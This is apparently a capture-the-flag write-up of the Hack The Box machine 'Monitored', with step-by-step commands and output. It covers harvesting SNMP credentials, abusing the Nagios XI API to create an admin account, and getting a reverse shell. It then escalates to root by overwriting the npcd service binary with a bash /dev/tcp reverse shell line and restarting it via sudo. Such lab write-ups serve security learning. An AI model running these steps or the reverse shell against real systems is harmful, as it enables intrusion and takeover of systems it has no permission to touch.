




# Monitored Writeup
<figure></figure>

Nmap Scan: 
```
┌──(kali㉿kali)-[~/Desktop/htb/monitored]
└─$ nmap -sC -sV -vv 10.10.11.248
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/xFgJTbVC36GNHaE0GG4n/bWZGaD2aE7lsFUvXVdbINrl0qzBPVCMuOE1HNf0LHi09obr2Upt9VURzpYdrQp/7SX2NDet9pb+UQnB1IgjRSxoIxjsOX756a7nzi71tdcR3I0sALQ4ay5I5GO4TvaVq+o8D01v94B0Qm47LVk7J3mN4wFR17lYcCnm0kwxNBsKsAgZVETxGtPgTP6hbauEk/SKGA5GASdWHvbVhRHgmBz2l7oPrTot5e+4m8A7/5qej2y5PZ9Hq/2yOldrNpS77ID689h2fcOLt4fZMUbxuDzQIqGsFLPhmJn5SUCG9aNrWcjZwSL2LtLUCRt6PbW39UAfGf47XWiSs/qTWwW/yw73S8n5oU5rBqH/peFIpQDh2iSmIhbDq36FPv5a2Qi8HyY6ApTAMFhwQE6MnxpysKLt/xEGSDUBXh+4PwnR0sXkxgnL8QtLXKC2YBY04jGG0DXGXxh3xEZ3vmPV961dcsNd6Up8mmSC43g5gj2ML/E=
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBbeArqg4dgxZEFQzd3zpod1RYGUH6Jfz6tcQjHsVTvRNnUzqx5nc7gK2kUUo1HxbEAH+cPziFjNJc6q7vvpzt4=
|   256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5o+WJqnyLpmJtLyPL+tEUTFbjMZkx3jUUFqejioAj7
80/tcp  open  http     syn-ack Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
389/tcp open  ldap     syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http syn-ack Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth/emailAddress=support@monitored.htb
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/localityName=Bournemouth/emailAddress=support@monitored.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-11T21:46:55
| Not valid after:  2297-08-25T21:46:55
| MD5:   b36a:5560:7a5f:047d:9838:6450:4d67:cfe0
| SHA-1: 6109:3844:8c36:b08b:0ae8:a132:971c:8e89:cfac:2b5b
| -----BEGIN CERTIFICATE-----
| MIID/zCCAuegAwIBAgIUVhOvMcK6dv/Kvzplbf6IxOePX3EwDQYJKoZIhvcNAQEL
| BQAwgY0xCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZEb3JzZXQxFDASBgNVBAcMC0Jv
| dXJuZW1vdXRoMRIwEAYDVQQKDAlNb25pdG9yZWQxHTAbBgNVBAMMFG5hZ2lvcy5t
| b25pdG9yZWQuaHRiMSQwIgYJKoZIhvcNAQkBFhVzdXBwb3J0QG1vbml0b3JlZC5o
| dGIwIBcNMjMxMTExMjE0NjU1WhgPMjI5NzA4MjUyMTQ2NTVaMIGNMQswCQYDVQQG
| EwJVSzEPMA0GA1UECAwGRG9yc2V0MRQwEgYDVQQHDAtCb3VybmVtb3V0aDESMBAG
| A1UECgwJTW9uaXRvcmVkMR0wGwYDVQQDDBRuYWdpb3MubW9uaXRvcmVkLmh0YjEk
| MCIGCSqGSIb3DQEJARYVc3VwcG9ydEBtb25pdG9yZWQuaHRiMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1qRRCKn9wFGquYFdqh7cp4WSTPnKdAwkycqk
| a3WTY0yOubucGmA3jAVdPuSJ0Vp0HOhkbAdo08JVzpvPX7Lh8mIEDRSX39FDYClP
| vQIAldCuWGkZ3QWukRg9a7dK++KL79Iz+XbIAR/XLT9ANoMi8/1GP2BKHvd7uJq7
| LV0xrjtMD6emwDTKFOk5fXaqOeODgnFJyyXQYZrxQQeSATl7cLc1AbX3/6XBsBH7
| e3xWVRMaRxBTwbJ/mZ3BicIGpxGGZnrckdQ8Zv+LRiwvRl1jpEnEeFjazwYWrcH+
| 6BaOvmh4lFPBi3f/f/z5VboRKP0JB0r6I3NM6Zsh8V/Inh4fxQIDAQABo1MwUTAd
| BgNVHQ4EFgQU6VSiElsGw+kqXUryTaN4Wp+a4VswHwYDVR0jBBgwFoAU6VSiElsG
| w+kqXUryTaN4Wp+a4VswDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsFAAOC
| AQEAdPGDylezaB8d/u2ufsA6hinUXF61RkqcKGFjCO+j3VrrYWdM2wHF83WMQjLF
| 03tSek952fObiU2W3vKfA/lvFRfBbgNhYEL0dMVVM95cI46fNTbignCj2yhScjIz
| W9oeghcR44tkU4sRd4Ot9L/KXef35pUkeFCmQ2Xm74/5aIfrUzMnzvazyi661Q97
| mRGL52qMScpl8BCBZkdmx1SfcVgn6qHHZpy+EJ2yfJtQixOgMz3I+hZYkPFjMsgf
| k9w6Z6wmlalRLv3tuPqv8X3o+fWFSDASlf2uMFh1MIje5S/jp3k+nFhemzcsd/al
| 4c8NpU/6egay1sl2ZrQuO8feYA==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Adding `monitored.htb` and `nagios.monitored.htb` to our `/etc/hosts` file.

I also find a UDP port runnning:
<figure></figure>

## User Flag

Visiting the page it looks like any normal login page.
<figure></figure>

I followed an article by `books.hacktricks.com` and found some Credentials.

```
┌──(kali㉿kali)-[~/Desktop/htb/monitored]
└─$ snmpwalk -c public -v2c 10.10.11.248 1.3.6.1.2.1.25.4.2.1.5
iso.3.6.1.2.1.25.4.2.1.5.530 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.535 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.539 = ""
iso.3.6.1.2.1.25.4.2.1.5.540 = STRING: "-u -s -O /run/wpa_supplicant"
iso.3.6.1.2.1.25.4.2.1.5.544 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.553 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.572 = ""
iso.3.6.1.2.1.25.4.2.1.5.639 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.697 = ""
iso.3.6.1.2.1.25.4.2.1.5.698 = ""
iso.3.6.1.2.1.25.4.2.1.5.749 = STRING: "-LOw -f -p /run/snmptrapd.pid"
iso.3.6.1.2.1.25.4.2.1.5.763 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.770 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
iso.3.6.1.2.1.25.4.2.1.5.788 = STRING: "-o -p -- \\u --noclear tty1 linux"
```

The credentials are `svc:XjH7VCehowpR1xZB`. After trying them on the webpage it doesnt work.

After a bit of searching here and there. I was able to find api endpoints.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "f22119604ab42fa3cd399279d5a7054f9d14b8a3",
    "valid_min": 500,
    "valid_until": "Thu, 18 Jan 2024 17:17:55 -0500"
}
```

I was able to make an admin user by doing this:
```
┌──(kali㉿kali)-[~/Desktop/htb/monitored]
└─$ curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=test&password=test&name=test&email=test@localhost&auth_level=admin"
{
    "success": "User account test was added successfully!",
    "user_id": 11
}
```

Then logged in with the credentials to the page.

<figure></figure>

We can get a Reverse shell by adding a command. By follwing this

```
Configure -> Core Config Manager -> Commands -> Add New
```

Following this:

<figure></figure>

Now to trigger the Command setup your NC listener a port then follow the path below.

```
Monitoring -> Hosts -> Add New
```

Then select the `cmd_name` and `run check command` from bottom. And we have the user flag.

```
┌──(kali㉿kali)-[~/Desktop/htb/monitored]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.69] from (UNKNOWN) [10.10.11.248] 47792
bash: cannot set terminal process group (45380): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ 
```

## Root Flag

Checking the scripts that can be run as root.

```
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

So we have priviledges to make changes to the npcd file.

```
$ rm /usr/local/nagios/bin/npcd
$ nano npcd
$ chmod +x npcd
```

And we can write the reverse shell in the file

```
bash -i >& /dev/tcp/10.10.16.69/1111 0>&1
```

And we can restart the service

```
$ sudo -u root usr/localnagiosxi/scripts/manage_services.sh restart npcd
```

The root user is here :D

```
┌──(kali㉿kali)-[~/…/output/nagios.monitored.htb/dump/nagiosxi]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.69] from (UNKNOWN) [10.10.11.248] 37814
bash: cannot set terminal process group (61703): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/# 
```

And the machine is rooted. Thank you and Happy Hacking :DD